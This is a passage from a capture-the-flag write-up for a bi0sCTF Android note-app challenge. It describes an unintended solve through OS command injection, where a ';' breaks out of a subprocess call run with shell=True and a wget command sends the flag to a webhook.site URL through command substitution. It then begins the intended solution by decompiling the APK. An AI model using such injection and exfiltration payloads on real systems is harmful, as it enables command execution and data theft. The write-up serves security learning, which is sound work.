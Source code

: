 The script starts the emulator and installs the APK file on the virtual device. The application runs and accepts the url input from the user.

### Unintended Solve

Notice the OS command injection vulnerability via the unsanitised input for user-controlled url parameter. We can exploit shell=True in subprocess.run() by injecting ; to run extra commands.

Payload:

- `; cd /chall`

 Break out of the original command
 Change directory to where the flag is stored

- `wget "https://webhook.site/... ?message=$(...)”`

 Sending flag as an HTTP request parameter to a controlled webhook.site URL.
 Command substitution executes below command and replaces itself with the flag text in the command line

- `LC_ALL=C grep -r 'bi0sctf{'`

 Find lines containing `bi0sctf{}`

For the sake of the writeup and our understanding, let's move forward with the intended solution.

### Decompiling APK

We can look into app.apk using a tool like [JADX](https://github.com/skylot/jadx).

### MainActivity

As per the ADB helper functions used in the main logic of script.py, `bi0sctf.challenge.MainActivity` seems to be the entry point of the application. Let's begin there.

```java
package bi0sctf.challenge;

import android.os.Bundle;
import android.webkit.JavascriptInterface;
import androidx.appcompat.app.AppCompatActivity;

/* loaded from: classes.dex */
public class MainActivity extends AppCompatActivity {
    public native long addNote(byte[] bArr);

    public native void deleteNote(long j);

    public native void edit(byte[] bArr, long j);

    public native void encryption();

    public native String getContent(long j);

    public native String getId(long j);

    public native void whiplash(MainActivity mainActivity);

    static {
        System.loadLibrary("supernova");
        System.loadLibrary("bob");
    }
```
